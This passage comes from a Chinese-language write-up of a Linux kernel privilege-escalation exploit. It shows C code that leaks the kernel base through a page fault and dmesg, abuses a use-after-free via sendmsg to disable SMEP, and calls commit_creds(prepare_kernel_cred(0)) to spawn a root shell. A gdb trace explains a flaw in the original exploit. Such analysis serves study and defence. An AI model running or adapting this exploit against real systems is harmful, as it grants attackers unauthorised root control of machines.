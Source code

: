 ##### 2. 泄露 kernel 基址

```
// 构造 page_fault 泄露kernel地址。从dmesg读取后写到/tmp/infoleak，再读出来
    pid_t pid=fork();
    if (pid==0){
        do_page_fault();
        exit(0);
    }
    int status;
    wait(&status);    // 等子进程结束
    //sleep(10);
    printf("[+] Begin to leak address by dmesg![+]\n");
    size_t kernel_base = get_info_leak()-sys_ioctl_offset;
    printf("[+] Kernel base addr : %p [+] \n", kernel_base);

    native_write_cr4_addr+=kernel_base;
    prepare_kernel_cred_addr+=kernel_base;
    commit_creds_addr+=kernel_base;


```

##### 3. 关闭 smep, 并提权

```
  //关闭smep,并提权
    use_after_free_sendmsg(fd,native_write_cr4_addr,fake_cr4);
    use_after_free_sendmsg(fd,get_root,0);   //MMAP_ADDR
    //use_after_free_msgsnd(fd,native_write_cr4_addr,fake_cr4);
    //use_after_free_msgsnd(fd,get_root,0);  //MMAP_ADDR

    if (getuid()==0)
    {
        printf("[+] Congratulations! You get root shell !!! [+]\n");
        system("/bin/sh");
    }


```

### （4）问题

原文的 exploit 有问题，是将 get_root() 代码用 mmap 映射到 0x100000000000，然后跳转过去执行，但是直接把代码拷贝过去会有地址引用错误。

```
#执行0x100000000000处的内容时产生pagefault，可能是访问0x1000002ce8fd地址出错
 gdb-peda$ x /10i $pc
=> 0x100000000000:  push   rbp
   0x100000000001:  mov    rbp,rsp
   0x100000000004:  push   rbx
   0x100000000005:  sub    rsp,0x8
   0x100000000009:  
    mov    rbx,QWORD PTR [rip+0x2ce8ed]        # 0x1000002ce8fd
   0x100000000010:  
    mov    rax,QWORD PTR [rip+0x2ce8ee]        # 0x1000002ce905
   0x100000000017:  mov    edi,0x0
   0x10000000001c:  call   rax
   0x10000000001e:  mov    rdi,rax
   0x100000000021:  call   rbx
#报错信息如下：
[   10.421887] BUG: unable to handle kernel paging request at 00001000002ce8fd
[   10.424836] IP: [<0000100000000009>] 0x100000000009


```
